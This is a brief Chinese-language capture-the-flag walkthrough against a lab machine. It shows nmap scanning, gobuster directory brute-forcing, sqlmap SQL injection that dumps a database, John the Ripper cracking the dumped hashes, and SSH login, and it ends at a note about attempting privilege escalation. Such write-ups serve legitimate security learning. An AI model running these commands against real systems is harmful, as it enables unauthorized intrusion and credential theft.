# Recon

- Starup
    - nmap -A 10.10.194.11
    - ![](https://hackmd.io/_uploads/rJ4_aRk-6.png)
- 很明顯的，又是一個只開22、80的目標

# WEB

![](https://hackmd.io/_uploads/Hk8PSJxW6.png)

- 目錄猜測
    - `gobuster dir -u http://10.10.194.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
    - ![](https://hackmd.io/_uploads/rkKkLklba.png)
    - 發現有login後開始嘗試找cookie來測試sqlmap
    - 試玩後發現找不到切入點，不論是/login or /admin都一樣
    - 這時候我懷疑可能是路徑沒有猜測的徹底
    - `gobuster dir -u http://10.10.194.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,xml`
    - 發現requirement.txt
    - ![](https://hackmd.io/_uploads/HkOPD1xWp.png)
    - 確認網站使用flask
    - 重新爆破一次
    - `gobuster dir -u http://10.10.194.11 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,xml,py`
    - 發現有app.py
    - trace code後發現有一段特別奇怪
    - ![](https://hackmd.io/_uploads/SJSduke-6.png)
    - 看完這段後確認/product有使用sql Query

# Sqlmap

- `sqlmap -u http://10.10.194.11/products/1 --dbs`
- ![](https://hackmd.io/_uploads/ry-k51gba.png)
- `sqlmap -u http://10.10.194.11/products/1 -D duckyinc `
- ![](https://hackmd.io/_uploads/SJn7cyl-p.png)

# john and ripper

- 將上面的hash存成txt後開始爆破
    - `john hash.txt --wordlist=/home/kali/Desktop/rockyou.txt`

- ![](https://hackmd.io/_uploads/HyUhqJe-p.png)

# initial Access & PrivESC

- ssh server-admin@10.10.194.11並輸入密碼後嘗試提權

